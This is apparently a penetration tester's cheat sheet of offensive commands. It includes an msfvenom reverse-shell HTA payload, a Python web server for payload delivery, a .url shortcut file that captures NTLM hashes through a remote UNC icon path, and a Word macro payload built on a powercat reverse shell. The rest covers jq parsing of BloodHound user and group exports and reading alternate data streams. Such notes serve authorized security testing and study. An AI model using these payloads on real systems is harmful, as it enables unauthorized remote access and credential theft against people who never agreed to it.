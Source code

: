 ```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=172.16.0.1 LPORT=53 -f hta-psh -o evil.hta
```

```
python3 -m http.server 80 -d /dir/
```

### Url File Attacks

capture hashes social engineering client side attack

Create a file called '"@something.url"'

```
[InternetShortcut]
URL=blah
WorkingDirectory=blah
IconFile=\\x.x.x.x\%USERNAME%.icon
IconIndex=1
```

### Malicous Macro Microsoft Word Doc

Create malicious payload

```
genbadmacro.py $(powercat -c lhost -p port -e powershell.exe -ge)
```

open microsoft word, create a new macro called "mymacro" in the current document

attack scenario #1 via upload ftp or smb

attack scenario #2 via self hosted webserver

### Working with json files JQ

### Parse for users

```
cat *_users.json| jq .data[].Properties.samaccountname | cut -d '"' -f2
```

Or

```
cat *_users.json| jq .data[].Properties.name | cut -d '"' -f2
```

### Parse for groups

```
cat 20220818000314_groups.json | jq .data[].Properties.name | cut -d '"' -f2 | cut -d '@' -f1
```

### Alternate DATA Stream

```
dir /R 
more < file.txt:alternate.txt:$DATA
```
